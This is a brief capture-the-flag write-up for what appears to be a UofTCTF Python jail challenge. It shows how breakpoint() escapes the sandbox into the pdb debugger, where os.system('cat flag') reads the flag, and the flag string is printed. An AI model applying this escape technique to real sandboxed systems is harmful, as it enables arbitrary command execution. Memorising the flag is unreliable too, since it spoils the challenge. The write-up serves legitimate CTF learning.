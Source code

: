Many solutions. An easy one:

```py
>>> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) import os; os.system('cat flag')
uoftctf{you_got_out_of_jail_free}
0
(Pdb)
```